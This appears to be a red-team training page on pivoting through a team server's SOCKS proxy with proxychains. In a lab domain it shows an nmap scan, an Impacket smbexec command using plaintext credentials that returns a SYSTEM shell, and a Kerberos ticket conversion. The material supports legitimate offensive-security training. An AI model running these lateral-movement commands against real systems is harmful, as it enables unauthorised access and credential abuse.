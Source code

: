 Like Proxifier, proxychains is a Linux tool that forces TCP traffic made by a given application to route through a proxy.

Using a text editor, such as vim or nano, open `/etc/proxychains.conf` for editing.

First, scroll to line 38 and comment out `proxy_dns`.  Then, scroll to line 64 and you will see the following default proxy entry: `socks4 127.0.0.1 9050`.  We need to replace this so that it points to the IP and port of the SOCKS server running on the team server, e.g. `socks4 10.0.0.5 1080`. &#x20;

Now we can wrap a tool with proxychains, such as nmap.

WSL inherits static host entries from Windows, so you don't need to add them to `/etc/hosts` if you've already added them in Windows.

```batch
attacker@DESKTOP-FGSTPS7:~$ proxychains nmap -n -sT -Pn -p 445 lon-dc-1
ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.80 ( https://nmap.org ) at 2025-04-28 13:03 UTC
|S-chain|-<>-10.0.0.5:1080-<><>-10.10.120.1:445-<><>-OK
Nmap scan report for lon-dc-1 (10.10.120.1)
Host is up (0.12s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 0.22 seconds
```

We could even execute a remote shell on the target using Impacket with plaintext credentials.

```batch
attacker@DESKTOP-FGSTPS7:~$ proxychains smbexec.py 'CONTOSO/rsteel:Passw0rd!@lon-ws-1'
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

|S-chain|-<>-10.0.0.5:1080-<><>-10.10.120.10:445-<><>-OK
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>hostname
lon-ws-1

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>exit
```

#### Authentication <a href="#el_1740396708141_369" id="el_1740396708141_369"></a>

Impacket (and other Linux tools) can also use Kerberos tickets, but they need to be in [ccache](https://web.mit.edu/kerberos/krb5-1.12/doc/basic/ccache_def.html) format.   `ticketConverter.py` can convert from kirbi to ccache and vice versa.

```batch
attacker@DESKTOP-FGSTPS7:/mnt/c/Users/Attacker/Desktop$ ticketConverter.py rsteel.kirbi rsteel.ccache
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] converting kirbi to ccache...
[+] done
```
